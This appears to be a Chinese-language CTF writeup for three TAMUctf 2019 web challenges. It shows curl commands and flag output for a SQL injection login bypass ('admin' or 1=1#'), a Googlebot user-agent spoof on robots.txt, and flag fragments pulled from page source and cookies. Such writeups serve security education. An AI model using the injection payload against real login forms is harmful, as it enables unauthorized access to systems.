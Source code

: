 ```yaml
---
title: TAMUctf writeup
date: 2019-02-23 09:19:41
---
```


# Web

## Not Another SQLi Challenge

尝试登陆时页面会发生跳转，可在chrome浏览器开发者工具中的Network栏勾选Preserve log保存报文内容，以便用于burp重放。

万能密码登录。

```bash
$curl -s "http://web1.tamuctf.com/web/login.php" -d "username=admin' or 1=1#&password" | grep -o "gigem{.*}"
gigem{f4rm3r5_f4rm3r5_w3'r3_4ll_r16h7}
```

## Robots Rule

```bash
$curl "http://web5.tamuctf.com/robots.txt"
User-agent: *

WHAT IS UP, MY FELLOW HUMAN!
HAVE YOU RECEIVED SECRET INFORMATION ON THE DASTARDLY GOOGLE ROBOTS?!
YOU CAN TELL ME, A FELLOW NOT-A-ROBOT!
```

按提示伪装成Google机器人访问 robots.txt 。

```bash
curl "http://web5.tamuctf.com/robots.txt" -A "Googlebot/2.1 (+http://www.google.com/bot.html)" -s | grep -o "gigem{.*}"
gigem{be3p-bOop_rob0tz_4-lyfe}
```

## Many Gig'ems to you!

> [http://web7.tamuctf.com](http://web7.tamuctf.com/) 

```bash
$ curl -s http://web7.tamuctf.com/index.html | grep -oE 'gigem{[^"]+"'
gigem{flag_in_"

$ curl -s http://web7.tamuctf.com/cookies.html | grep -oE 'gigem{[^"]+"'
gigem{continued == source_and_"
gigem{_continued=source_and_"
gigem{_continued=source_and_"

$ curl http://web7.tamuctf.com/cook.js
document.cookie = "gigem_continue=cookies}; expires=Thu, 18 Dec 2020 12:00:00 UTC";
document.cookie = "hax0r=flagflagflagflagflagflag; expires=Thu, 18 Dec 2020 12:00:00 UTC";
document.cookie = "gigs=all_the_cookies; expires=Thu, 18 Dec 2020 12:00:00 UTC";
document.cookie = "cookie=flagcookiegigemflagcookie; expires=Thu, 18 Dec 2020 12:00:00 UTC";
```
